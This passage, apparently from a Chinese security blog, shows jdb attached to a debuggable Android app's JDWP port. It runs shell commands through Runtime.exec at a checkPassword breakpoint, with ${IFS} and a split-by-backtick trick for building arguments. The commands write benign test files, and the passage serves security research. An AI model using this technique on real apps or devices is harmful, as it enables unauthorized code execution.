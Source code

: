 ```
➜  platform-tools jdb -attach 127.0.0.1:7777       
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> stop in com.example.helloworld.MainActivity.checkPassword
Set breakpoint com.example.helloworld.MainActivity.checkPassword
> 
Breakpoint hit: "thread=main", com.example.helloworld.MainActivity.checkPassword(), line=21 bci=0

main[1] print java.lang.Runtime.getRuntime().exec("sh -c echo${IFS}\\x41>/data/data/com.example.helloworld/text.txt")
 java.lang.Runtime.getRuntime().exec("sh -c echo${IFS}\\x41>/data/data/com.example.helloworld/text.txt") = "Process[pid=23980]"
main[1] print java.lang.Runtime.getRuntime().exec("sh -c chmod${IFS}+x${IFS}/data/data/com.example.helloworld/text.txt")
 java.lang.Runtime.getRuntime().exec("sh -c chmod${IFS}+x${IFS}/data/data/com.example.helloworld/text.txt") = "Process[pid=24005]"
main[1] exit
➜  platform-tools ./adb shell
shell@hammerhead:/ $ run-as com.example.helloworld
shell@hammerhead:/data/data/com.example.helloworld $ ls -al
drwxrwx--x u0_a89   u0_a89            2021-01-06 19:24 cache
drwxrwx--x u0_a89   u0_a89            2021-01-06 19:24 code_cache
-rwx------ u0_a89   u0_a89          2 2021-01-08 14:30 text.txt
shell@hammerhead:/data/data/com.example.helloworld $ cat text.txt
A
shell@hammerhead:/data/data/com.example.helloworld $ 
```

可惜上下文中不存在`ProcessBuilder(String... command)`，还是想要构造字符串数组的话还是可以[分割](https://docs.oracle.com/javase/8/docs/api/java/lang/String.html#split-java.lang.String-)一下的：

```
➜  platform-tools jdb -attach 127.0.0.1:7777
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> stop in com.example.helloworld.MainActivity.checkPassword
Set breakpoint com.example.helloworld.MainActivity.checkPassword
> 
Breakpoint hit: "thread=main", com.example.helloworld.MainActivity.checkPassword(), line=21 bci=0

main[1] print java.lang.Runtime.getRuntime().exec("sh`-c`echo larryxi > /data/data/com.example.helloworld/1.txt".split("`"))
 java.lang.Runtime.getRuntime().exec("sh`-c`echo larryxi > /data/data/com.example.helloworld/1.txt".split("`")) = "Process[pid=24784]"
main[1] exit
➜  platform-tools ./adb shell
shell@hammerhead:/ $ run-as com.example.helloworld
shell@hammerhead:/data/data/com.example.helloworld $ ls -al
-rw------- u0_a89   u0_a89          8 2021-01-08 14:42 1.txt
drwxrwx--x u0_a89   u0_a89            2021-01-06 19:24 cache
drwxrwx--x u0_a89   u0_a89            2021-01-06 19:24 code_cache
-rwx------ u0_a89   u0_a89          2 2021-01-08 14:30 text.txt
shell@hammerhead:/data/data/com.example.helloworld $ cat 1.txt
larryxi
shell@hammerhead:/data/data/com.example.helloworld $ 
```
